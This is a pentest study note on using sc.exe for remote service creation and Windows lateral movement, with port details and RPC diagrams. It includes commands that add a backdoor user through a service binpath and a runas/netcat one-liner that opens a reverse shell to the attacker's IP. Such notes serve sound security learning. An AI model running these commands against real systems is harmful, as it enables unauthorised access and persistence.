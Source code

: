```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#sc #runas
# Sc
-   **Ports:**
    -   135/TCP, 49152-65535/TCP (DCE/RPC)
    -   445/TCP (RPC over SMB Named Pipes)
    -   139/TCP (RPC over SMB Named Pipes)
-  Group: Administrators
Windows services can also be leveraged to run arbitrary commands since they execute a command when started. While a service executable is technically different from a regular application, if we configure a Windows service to run any application, it will still execute it and fail afterwards.

We can create a service on a remote host with sc.exe, a standard tool available in Windows. When using sc, it will try to connect to the Service Control Manager (SVCCTL) remote service program through RPC in several ways:

1.  A connection attempt will be made using DCE/RPC. The client will first connect to the Endpoint Mapper (EPM) at port 135, which serves as a catalogue of available RPC endpoints and request information on the SVCCTL service program. The EPM will then respond with the IP and port to connect to SVCCTL, which is usually a dynamic port in the range of 49152-65535.
```mermaid
sequenceDiagram
	participant Client as Client
	participant EPM as End Point Mapper (PORT 135)
	Client->>EPM: Where is SVCCTL?
	EPM->>Client: SVCCTL is at port 40345
```

```mermaid
sequenceDiagram
	participant Client as Client
	participant svc as SVCCTL (PORT 40345)
	Client->>svc: rpcbind to SVCCTL
```
2. If the above process fails, sc with reach SVCCTL via SMB named pipes on port 445 (SMB) or port 135 (SMB over NETBIOS)
```mermaid
sequenceDiagram
	participant Client
	participant SMB
	Client->>SMB: Bind to known pipe \pipe\svcctl [IPC$]
```
```powershell
# Create a service
sc.exe \\<server> create MyService binpath= "net user drdragon Banana79 /add" start= auto

# start the service
sc.exe \\<server> start MyService

# Stop the service
sc.exe \\<server> stop MyService

# Delete the Service
sc.exe \\<server> delete MyService
```
- the `sc.exe` command should be run with `runas.exe /netonly` so that the service is created with the admin's credentials.
```powershell
# Get a reverse shell with leonards's access token.
runas /netonly /user:ZA\admin_leonard.summers "c:\tools\nc64.exe -e cmd.exe <myIP> 4443"

# Can catch with 
nc -nvlp 4443
# now we can schedule tasks with admin's privs
```

